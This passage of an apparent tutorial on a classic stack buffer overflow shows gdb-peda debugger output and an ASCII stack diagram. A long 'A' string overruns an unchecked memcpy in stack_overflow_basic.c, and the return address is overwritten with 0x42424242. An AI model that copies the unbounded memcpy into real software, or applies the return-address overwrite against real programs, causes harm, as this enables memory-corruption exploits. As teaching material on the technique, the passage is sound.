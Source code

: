 ```
[------------------------------------stack-------------------------------------]
0000| 0xbffff498 --> 0xbffff4a4 ('A' <repeats 200 times>...)
0004| 0xbffff49c --> 0xbffff78f ('A' <repeats 200 times>...)
0008| 0xbffff4a0 --> 0x10c 
0012| 0xbffff4a4 ('A' <repeats 200 times>...)
0016| 0xbffff4a8 ('A' <repeats 200 times>...)
0020| 0xbffff4ac ('A' <repeats 200 times>...)
0024| 0xbffff4b0 ('A' <repeats 200 times>...)
0028| 0xbffff4b4 ('A' <repeats 200 times>...)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x8000063e in main (argc=0x2, argv=0xbffff644) at stack_overflow_basic.c:5
5               memcpy(buf, argv[1], strlen(argv[1]));
gdb-peda$ x /100xw $esp
0xbffff498:     0xbffff4a4      0xbffff78f      0x0000010c      0x41414141
0xbffff4a8:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff4b8:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff4c8:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff4d8:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff4e8:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff4f8:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff508:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff518:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff528:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff538:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff548:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff558:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff568:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff578:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff588:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff598:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff5a8:     0x41414141      0x42424242      0x00000002      0xbffff644
0xbffff5b8:     0xbffff650      0x00000000      0x00000000      0x00000000
0xbffff5c8:     0xb7fb1000      0xb7fffc04      0xb7fff000      0x00000000
0xbffff5d8:     0xb7fb1000      0xb7fb1000      0x00000000      0x15f44c28
0xbffff5e8:     0x29544238      0x00000000      0x00000000      0x00000000
0xbffff5f8:     0x00000002      0x80000490      0x00000000      0xb7feff10
0xbffff608:     0xb7fea7a0      0x80002000      0x00000002      0x80000490
0xbffff618:     0x00000000      0x800004c1      0x80000600      0x00000002
gdb-peda$ 
```

Now EBP point to 0xbffff5a8 which is 0x41414141 and the next 4 bytes is 0x42424242. Now we successful overide RET pointer to 0x42424242. At this point the stack may look like the following.
```
-BEFORE OVERFLOW-
--------------------------
| Local variable (BUF)   | Low memory address
--------------------------
| Local variable (BUF)   |
--------------------------
| Local variable (BUF)   |
--------------------------
| Local variable (BUF)   |
--------------------------
| Local variable (BUF)   |
--------------------------
|           EBP          |
--------------------------
|           RET          |   Stack (grows ↑)
--------------------------   
|            A           |
--------------------------
```